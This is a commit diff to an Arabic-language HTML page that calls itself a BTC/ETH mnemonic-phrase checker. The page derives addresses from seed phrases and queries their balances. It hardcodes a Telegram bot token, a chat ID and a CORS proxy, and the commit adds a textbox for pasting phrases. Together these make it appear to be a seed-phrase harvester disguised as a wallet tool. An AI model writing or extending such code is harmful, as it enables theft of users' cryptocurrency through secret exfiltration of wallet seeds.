

Before and after one commit to mehdikhaled1996/otaku, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 72-878 px from the top of the page, without its empty margins (185-1094 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,7 +5,8 @@
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>فاحص عبارات Mnemonic (BTC/ETH)</title>
     <!-- External Libraries from Public CDNs -->
-    <script src="https://cdn.jsdelivr.net/npm/bip39@3.0.4/dist/bip39.min.js"></script> <!-- BIP39 checksum & seed derivation -->
+    <!-- BIP39 import for global accessibility (dist/bip39.min.js is the correct UMD bundle) -->
+    <script src="https://cdn.jsdelivr.net/npm/bip39@3.0.4/dist/bip39.min.js"></script>
     <script src="https://cdn.jsdelivr.net/npm/hdkey@1.1.1/dist/hdkey.min.js"></script>
     <script src="https://cdn.jsdelivr.net/npm/ethereumjs-util@7.1.3/dist/index.umd.js"></script>
     <script src="https://cdn.jsdelivr.net/npm/bitcoinjs-lib@6.1.0/dist/bitcoinjs.min.js"></script>
@@ -33,6 +34,7 @@
         }
 
         input[type="file"],
+        textarea,
         button {
             background-color: #111;
             color: #33ff33;
@@ -46,7 +48,6 @@
             transition: background-color 0.3s ease, box-shadow 0.3s ease;
             width: 100%;
             max-width: 500px;
-            cursor: pointer;
         }
 
         input[type="file"]::file-selector-button {
@@ -64,9 +65,25 @@
             background-color: #22ee22;
         }
 
-        button:hover {
+        textarea {
+            resize: vertical; /* Allow vertical resizing */
+            min-height: 100px;
+            cursor: text;
+        }
+
+        button {
+            cursor: pointer;
+        }
+
+        button:hover:not(:disabled) { /* Apply hover only if not disabled */
             background-color: #222;
             box-shadow: 0 0 15px rgba(51, 255, 51, 0.9);
+        }
+
+        button:disabled { /* Styling for disabled button */
+            cursor: not-allowed;
+            opacity: 0.5;
+            box-shadow: none;
         }
 
         #summary {
@@ -195,6 +212,7 @@
             }
 
             input[type="file"],
+            textarea,
             button {
                 font-size: 0.9em;
                 padding: 8px 12px;
@@ -211,16 +229,40 @@
 <body>
     <h2>فاحص عبارات Mnemonic (BTC/ETH)</h2>
     <input type="file" id="fileInput" accept=".txt">
-    <button onclick="scanFile()">بدء الفحص</button>
-    <audio id="gunshot" src="gunshot.mp3" preload="auto"></audio> <!-- Retaining gunshot audio as per previous request -->
+    <textarea id="phraseInput" placeholder="أو الصق عباراتك هنا، سطر لكل عبارة"></textarea>
+    <button id="startButton" onclick="scanFile()" disabled>بدء الفحص</button>
+    <audio id="gunshot" src="gunshot.mp3" preload="auto"></audio>
     <div id="summary">لم يتم الفحص بعد.</div>
     <div id="results"></div>
 
     <script>
         // Constants for Telegram API and CORS proxy
         const TELEGRAM_BOT_TOKEN = '8026919110:AAGOm56kp92jEt9NphOYeBMiG_U_bX1uCYU';
-        const TELEGRAM_CHAT_ID = '-4913064483';
+        const TELEGRAM_CHAT_ID   = '-4913064483';
         const CORS_PROXY_URL = 'https://corsproxy.io/?';
+
+        // Get references to UI elements
+        const fileInput = document.getElementById('fileInput');
+        const phraseInput = document.getElementById('phraseInput');
+        const startButton = document.getElementById('startButton');
+        const summaryDiv = document.getElementById('summary');
+        const resultsDiv = document.getElementById('results');
+        const gunshotAudio = document.getElementById('gunshot');
+
+        /**
+         * Updates the state of the "Start Scan" button based on input availability.
+         */
+        function updateScanButtonState() {
+            startButton.disabled = !(fileInput.files.length > 0 || phraseInput.value.trim().length > 0);
+        }
+
+        // Add event listeners to update button state
+        fileInput.addEventListener('change', updateScanButtonState);
+        phraseInput.addEventListener('input', updateScanButtonState);
+
+        // Initial check on page load
+        document.addEventListener('DOMContentLoaded', updateScanButtonState);
+
 
         /**
          * Shows a custom message box instead of native alert().
@@ -283,11 +325,12 @@
                     const totalSatoshi = data.chain_stats.funded_txo_sum - data.chain_stats.spent_txo_sum;
                     return { exists: true, balance: totalSatoshi / 100000000, unit: 'BTC' }; // Convert satoshi to BTC
                 }
+                // If address not found by API (e.g., 404), data might be null or not have chain_stats
                 return { exists: false, balance: 0, unit: 'BTC' };
             } catch (error) {
                 if (error.message === 'rate_limit') throw error;
-                // If API returns an error other than rate limit (e.g., 404 for not found), treat as non-existent
-                console.warn(`BTC check for ${addr} failed:`, error);
+                // For other errors (e.g., network error, address not found on blockchain explorer), assume non-existent for 'exists'
+                console.warn(`BTC check for ${addr} failed or address not found:`, error);
                 return { exists: false, balance: 0, unit: 'BTC' };
             }
         }
@@ -300,7 +343,7 @@
         async function checkEth(addr) {
             try {
                 const json = await checkApi(`https://api.etherscan.io/api?module=account&action=balance&address=${addr}&tag=latest`);
-                // Etherscan API returns a result field. If it's a valid number (even '0'), the address exists.
+                // Etherscan API returns a 'result' field. If it's a string that can be parsed as a number (even '0'), the address exists.
                 if (json && typeof json.result === 'string' && !isNaN(parseFloat(json.result))) {
                     const balanceWei = parseFloat(json.result);
                     return { exists: true, balance: balanceWei / 1e18, unit: 'ETH' }; // Convert wei to ETH
@@ -308,7 +351,7 @@
                 return { exists: false, balance: 0, unit: 'ETH' };
             } catch (error) {
                 if (error.message === 'rate_limit') throw error;
-                console.warn(`ETH check for ${addr} failed:`, error);
+                console.warn(`ETH check for ${addr} failed or address not found:`, error);
                 return { exists: false, balance: 0, unit: 'ETH' };
             }
         }
@@ -320,7 +363,7 @@
          * @returns {string} The derived BTC address.
          */
         function deriveBtc(seed) {
-          const root = hdkey.fromMasterSeed(seed);
+          const root  = hdkey.fromMasterSeed(seed);
           const child = root.derive("m/44'/0'/0'/0/0"); // BIP44 path for Bitcoin mainnet
           return bitcoin.payments.p2pkh({ pubkey: child.publicKey }).address;
         }
@@ -332,7 +375,7 @@
          * @returns {string} The derived ETH address (0x prefixed).
          */
         function deriveEth(seed) {
-          const root = hdkey.fromMasterSeed(seed);
+          const root  = hdkey.fromMasterSeed(seed);
           const child = root.derive("m/44'/60'/0'/0/0"); // BIP44 path for Ethereum
           // pubToAddress expects uncompressed public key.
           return '0x' + ethereumjs.Util.pubToAddress(child.publicKey, false).toString('hex'); // 'false' for uncompressed pubkey
@@ -376,49 +419,60 @@
                 return { status: 'found_empty', chain: 'ETH', addr: ethAddr, balance: ethResult.balance, unit: ethResult.unit };
             }
 
-            return { status: 'not_found' }; // Genuinely not found or API error that wasn't rate_limit
+            return { status: 'not_found' }; // Genuinely not found (invalid mnemonic or API didn't confirm existence)
         }
 
         /**
-         * Main function to handle file reading and batch scanning of mnemonic phrases.
+         * Main function to handle file reading/textarea input and batch scanning of mnemonic phrases.
          * Updates UI with progress and results, handles errors and rate limits.
          */
         async function scanFile() {
-            const fileInput = document.getElementById('fileInput');
-            const file = fileInput.files[0];
+            let lines = [];
 
-            // Check if a file is selected
-            if (!file) {
-                showMessageBox('يرجى رفع ملف العبارات أولاً.');
+            // Prioritize file input
+            if (fileInput.files.length > 0) {
+                const file = fileInput.files[0];
+                lines = await new Promise((resolve) => {
+                    const fileReader = new FileReader();
+                    fileReader.onload = (e) => {
+                        const rawLines = e.target.result.trim().split(/\r?\n/);
+                        resolve(rawLines.filter(line => line.trim() !== ''));
+                    };
+                    fileReader.readAsText(file, 'UTF-8');
+                });
+            } else if (phraseInput.value.trim().length > 0) {
+                // Fallback to textarea input
+                const rawLines = phraseInput.value.trim().split(/\r?\n/);
+                lines = rawLines.filter(line => line.trim() !== '');
+            } else {
+                // Should not happen if button state is managed correctly, but as a fallback
+                showMessageBox('يرجى رفع ملف العبارات أو لصق العبارات في المنطقة النصية أولاً.');
                 return;
             }
 
-            // Read file content as text
-            const lines = await new Promise((resolve) => {
-                const fileReader = new FileReader();
-                fileReader.onload = (e) => {
-                    // Split lines, filter out empty/blank lines, and trim whitespace from each phrase
-                    const rawLines = e.target.result.trim().split(/\r?\n/);
-                    const filteredLines = rawLines.filter(line => line.trim() !== '');
-                    resolve(filteredLines);
-                };
-                fileReader.readAsText(file, 'UTF-8');
-            });
+            if (lines.length === 0) {
+                showMessageBox('لم يتم العثور على عبارات صالحة في الإدخال.');
+                summaryDiv.innerHTML = 'لم يتم الفحص بعد.';
+                resultsDiv.innerHTML = '';
+                return;
+            }
+
 
             const totalPhrases = lines.length;
-            const resultsDiv = document.getElementById('results');
             resultsDiv.innerHTML = ''; // Clear previous results
 
             let fundsFoundCount = 0;
             let emptyFoundCount = 0;
             let notFoundCount = 0;
             let scanStopped = false;
-            const gunshotAudio = document.getElementById('gunshot');
+
+            // Disable button during scan
+            startButton.disabled = true;
 
             // Iterate through each mnemonic phrase
             for (let i = 0; i < totalPhrases && !scanStopped; i++) {
                 // Update live progress counter
-                document.getElementById('summary').innerHTML = `🚀 تم فحص <span class="count">${i + 1}/${totalPhrases}</span> عبارة`;
+                summaryDiv.innerHTML = `🚀 تم فحص <span class="count">${i + 1}/${totalPhrases}</span> عبارة`;
 
                 const currentPhrase = lines[i];
 
@@ -460,15 +514,18 @@
             }
 
             // Display final summary totals
-            document.getElementById('summary').innerHTML = `
+            summaryDiv.innerHTML = `
                 <br>
                 <span class="good">Found with funds: ${fundsFoundCount}</span> |
                 <span class="empty-wallet">Found empty: ${emptyFoundCount}</span> |
                 <span class="bad">Not found: ${notFoundCount}</span>
             `;
             if (scanStopped) {
-                document.getElementById('summary').innerHTML += `<br><span class="limit">توقف الفحص بسبب تجاوز الحد الأقصى لطلبات API.</span>`;
+                summaryDiv.innerHTML += `<br><span class="limit">توقف الفحص بسبب تجاوز الحد الأقصى لطلبات API.</span>`;
             }
+
+            // Re-enable button after scan
+            updateScanButtonState();
         }
     </script>
 </body>
```
